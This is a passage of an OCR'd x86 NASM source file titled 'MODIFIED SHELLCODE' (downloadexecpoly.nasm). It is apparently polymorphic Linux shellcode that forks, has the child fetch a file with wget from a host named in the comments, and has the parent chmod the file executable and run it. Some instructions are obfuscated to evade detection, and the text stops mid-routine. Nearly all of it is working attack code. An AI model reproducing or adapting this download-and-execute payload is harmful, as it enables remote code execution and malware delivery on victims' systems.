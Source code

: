     ; MODIFIED SHELLCODE
    ; Filename: downloadexecpoly.nasm
    ; Author: Jeremy Catelain

    global _start

    section .text

    _start:

        ;fork
        xor eax,eax
        mov al,0x1
        add al, 0x1
        int 0x80
        xor ebx,ebx
        cmp eax,ebx
        jz child
  
        ;wait(NULL)
        xor eax,eax
        mov al,0x7
        int 0x80
        
        ;chmod x
        xor ecx,ecx
        mov eax, ecx
        push eax
        mov al, 0xf
        push 0x78
        mov ebx, esp
        xor ecx, ecx
        mov cx, 0x1ff
        int 0x80
    
        ;exec x
        xor eax, eax
        push eax
        push 0x78
        mov ebx, esp
        push eax
        mov edx, esp
        push ebx
        mov ecx, esp
        mov al, 11
        int 0x80
    
    child:
        ;download 192.168.2.222//x with wget
        push 0xb
        pop eax
        cdq
        push edx

        mov dword [esp-4], 0x782f2f74 ; t//x
        mov dword [esp-8], 0x736F686C ; lhos
        mov esi, 0x50525e5b
        add esi, 0x11111111
        mov dword [esp-12], esi ; loca
